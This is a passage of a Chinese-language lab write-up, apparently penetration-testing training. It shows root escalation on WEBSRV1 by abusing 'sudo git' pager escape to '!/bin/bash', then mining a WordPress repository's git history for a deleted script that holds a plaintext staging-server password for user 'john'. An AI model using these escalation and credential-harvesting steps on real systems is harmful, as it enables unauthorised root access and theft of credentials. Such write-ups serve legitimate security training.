 嘗試第二種方法：`sudo git`
```
daniela@websrv1:~$ sudo git -p help config
...
       •   no section or name was provided (ret=2),

       •   the config file is invalid (ret=3),

!/bin/bash

root@websrv1:/home/daniela# whoami
root
```
> 呼叫 execute code，再使用 ! + Command\
> 成功對 `WEBSRV1` 提權

#### 3. 使用 `.git` 尋找敏感資訊
```
root@websrv1:/srv/www/wordpress# git status
HEAD detached at 612ff57
nothing to commit, working tree clean
root@websrv1:/srv/www/wordpress# git log
commit 612ff5783cc5dbd1e0e008523dba83374a84aaf1 (HEAD, master)
Author: root <root@websrv1>
Date:   Tue Sep 27 14:26:15 2022 +0000

    Removed staging script and internal network access

commit f82147bb0877fa6b5d8e80cf33da7b8f757d11dd
Author: root <root@websrv1>
Date:   Tue Sep 27 14:24:28 2022 +0000

    initial commit

```
> 查看 `612ff5783cc5dbd1e0e008523dba83374a84aaf1`: Removed staging script and internal network access

```
root@websrv1:/srv/www/wordpress# git show 612ff5783cc5dbd1e0e008523dba83374a84aaf1
commit 612ff5783cc5dbd1e0e008523dba83374a84aaf1 (HEAD, master)
Author: root <root@websrv1>
Date:   Tue Sep 27 14:26:15 2022 +0000

    Removed staging script and internal network access

diff --git a/fetch_current.sh b/fetch_current.sh
deleted file mode 100644
index 25667c7..0000000
--- a/fetch_current.sh
+++ /dev/null
@@ -1,6 +0,0 @@
-#!/bin/bash
-
-# Script to obtain the current state of the web app from the staging server
-
-sshpass -p "dqsTwTpZPn#nL" rsync john@192.168.50.245:/current_webapp/ /srv/www/wordpress/
```
> `john`:`dqsTwTpZPn#nL` IP: `192.168.50.245`

